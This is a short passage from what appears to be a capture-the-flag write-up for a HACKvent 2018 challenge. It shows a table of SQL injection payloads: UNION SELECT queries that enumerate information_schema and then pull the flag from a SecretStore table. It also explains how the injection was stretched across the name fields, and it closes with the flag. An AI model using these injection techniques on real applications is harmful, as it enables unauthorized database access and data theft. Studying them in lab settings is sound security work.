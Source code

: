   ' union SELECT table_name,    df                           error
  column_name FROM                                           
  information_schema.columns;                                
  \#                                                         

  \`' UNION SELECT              information_schema.columns   SecretStore - flag
  table_name,column_name FROM   WHERE table_name =           
                                'SecretStore';# --           

  ' union SELECT flag,1 from    df                           HV18-M4k3-S0m3-R34L-N1c3-W15h - 1
  SecretStore; \# --                                         
  -----------------------------------------------------------------------------------------------

Note, the name fields are truncated if they get too long. However, it
seems they are also just concatenated together, so I can stretch my SQLI
across the first and last name fields.

So there's the flag:

![](/img/1544629364220.png)

**Flag: HV18-M4k3-S0m3-R34L-N1c3-W15h**





